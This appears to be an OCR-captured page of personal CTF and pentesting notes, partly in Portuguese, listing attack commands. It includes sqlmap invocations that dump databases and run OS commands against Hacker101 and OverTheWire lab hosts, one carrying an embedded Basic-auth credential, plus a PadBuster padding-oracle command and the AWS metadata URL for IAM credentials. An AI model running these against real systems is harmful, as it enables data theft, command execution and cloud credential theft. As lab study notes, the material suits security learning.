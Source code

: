                 ```bash
                sqlmap -u https://53252d0c89bf0a90652f6b8f0d4742a9.ctf.hacker101.com/login --data 'username=admin&password=paokpok' --batch --dump
                ```
                
                ```bash
                sqlmap -u "https://$host/fetch?id=2" -p id --batch --dump
                ```
                
                ```php
                sqlmap --random-agent --header "Authorization: Basic bmF0YXMxNTpUVGthSTdBV0c0aURFUnp0QmNFeUtWN2tSWEgxRVpSQg==" -u http://natas15.natas.labs.overthewire.org/index.php/?debug=yes --data 'username=admin"' -p username --batch --dump
                ```
                
            - Exploitation
                
                ```bash
                sqlmap -u "https://$host/fetch?id=2" --os-cmd whoami --batch
                ```
                
                ```bash
                sqlmap -u "https://$host/fetch?id=2" --hostname --batch
                ```
                
    - Crypto weaks?
        - Padding attack
            - [PadBuster](https://github.com/AonCyberLabs/PadBuster)
                
                ```markdown
                ./padBuster.pl https://860c7e8b46bb4d6bef805a5495bfdd7f.ctf.hacker101.com/?post=pN9KnGLjw9YSpPPwqvUrsH4i99Nl0I56R8HM8kFSQn4lxoBX1wa67xveErauebpb88cTa8jCQ9Pg8T6p3VrBE00aVptEsXNfg4fwdhJ1iD1yUsGvWUA/F4/VOzlDIrd5FtBpD1c1216nI4qsWBeGgbBJSXujRVo5tpo7mCBLcAdjAYuJg73V/qu2gDiBBxso4snvGy4LuFIJ4WhSSS6soQ== pN9KnGLjw9YSpPPwqvUrsH4i99Nl0I56R8HM8kFSQn4lxoBX1wa67xveErauebpb88cTa8jCQ9Pg8T6p3VrBE00aVptEsXNfg4fwdhJ1iD1yUsGvWUA/F4/VOzlDIrd5FtBpD1c1216nI4qsWBeGgbBJSXujRVo5tpo7mCBLcAdjAYuJg73V/qu2gDiBBxso4snvGy4LuFIJ4WhSSS6soQ== 16 -encoding 0
                ```
                
        - keytool (.jks)
            - Listando certificados (e alias)
                
                ```bash
                keytool -list -v -keystore ssl.jks
                ```
                
            - Exportando certificado
                
                ```bash
                keytool -export -rfc -file ssl_montevideo.pem -keystore Downloads/ssl.jks -alias juanc
                ```
                
            
    - AWS?
        - Recuperando metadados
            
            ```bash
            http://169.254.169.254/latest/meta-data/iam/security-credentials/
            ```
            